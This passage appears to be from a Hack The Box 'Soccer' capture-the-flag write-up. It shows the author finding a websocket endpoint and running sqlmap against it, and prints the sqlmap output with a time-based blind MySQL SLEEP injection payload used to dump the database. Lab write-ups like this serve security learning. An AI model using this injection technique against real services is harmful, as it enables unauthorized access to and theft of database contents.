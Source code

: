 Using browser developer tools I tryed to figure out which type of mechanism is behind the form... reading the javascript code I saw a websocket request!!! That the little hint of the box name SOCcer... I suppose analyzing the websocket should be the correct way to solve the machine. 

![web-socket](assets/postimages/soccer/websocket.png)

I started to learn more on WS: how to enumerate more, on type of attacks, etc. Considering that ticket-id could be placed on an internal database I tryed to use **sqlmap** which have some parameters to test WS services. The WS seems to be SQL-injectable and I was able to dump all the DB and tables.

{% highlight shell %}
xabaras@helix:~/workdir/ctf/htb/soccer.htb$ sqlmap -u ws://soc-player.soccer.htb:9091/ --data '{"id":"64286*"}'
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:50:47 /2023-02-17/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
JSON data found in POST body. Do you want to process it? [Y/n/q] y
[23:50:54] [INFO] resuming back-end DBMS 'mysql' 
[23:50:54] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"72525 AND (SELECT 7135 FROM (SELECT(SLEEP(5)))nZtU)-- nwsQ"}
---
[23:50:57] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[23:50:57] [INFO] fetched data logged to text files under '/home/xabaras/.sqlmap/output/soc-player.soccer.htb'
[23:50:57] [WARNING] your sqlmap version is outdated

[*] ending @ 23:50:57 /2023-02-17/

{% endhighlight %}
